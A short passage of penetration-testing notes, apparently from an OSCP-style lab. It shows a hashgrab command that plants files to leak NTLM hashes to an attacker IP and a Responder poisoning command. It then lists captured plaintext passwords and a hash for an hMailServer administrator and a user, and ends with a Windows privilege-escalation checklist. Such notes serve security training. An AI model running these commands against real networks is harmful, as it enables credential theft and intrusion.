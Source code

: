 ![image.png](image%2022.png)

```bash
python3 hashgrab.py 10.10.14.27 link
```

[https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)

![image.png](image%2023.png)

And run responder:

```bash
sudo responder -I tun0 -dwv
```
## Credentials

```bash
Administrator : homenetworkingadministrator (hMailServer)
0a9f8ad8bf896b501dde74f08efd7e4c
maya : m4y4ngs4ri
```

- **OSCP Checklist**
    
    [PayloadAllTheThings - Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
    
    - [ ]  Situational Awareness
    - [ ]  SeImpersonatePrivilege
    - [ ]  SeBackupPrivilege
    - [ ]  SeDebugPrivilege
    - [ ]  SeRestorePrivilege
    - [ ]  SeTakeOwnershipPrivilege
    - [ ]  SeManageVolumePrivilege
    - [ ]  SeMachineAccountPrivilege
    - [ ]  [Gaining Full Privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)
    - [ ]  [FullPowers](https://github.com/itm4n/FullPowers - second way of obtaining full privileges)
    - [ ]  PowerShell History(Transcription, Script Logging)
    - [ ]  Sensitive Files
    - [ ]  Insecure Service Executables
    - [ ]  binpath 
    - [ ]  DLL hijacking
    - [ ]  Unquoted Service Path
    - [ ]  Scheduled Tasks
    - [ ]  Application-based exploits
    - [ ]  Detailed [Paper](https://github.com/hatRiot/token-priv) about other privileges 
    - [ ]  Kernel Exploits
    - [ ]  When you're on a Windows box make sure to check the root directory of the local drive volume, each user directory as well as their Desktop and Documents folders, the Program Files folder (usually the x86 one), as well as their PowerShell history if you want to be extra thorough. Do these before using something like winPEAS to save time if you end up finding a config file or script with credentials in it.
    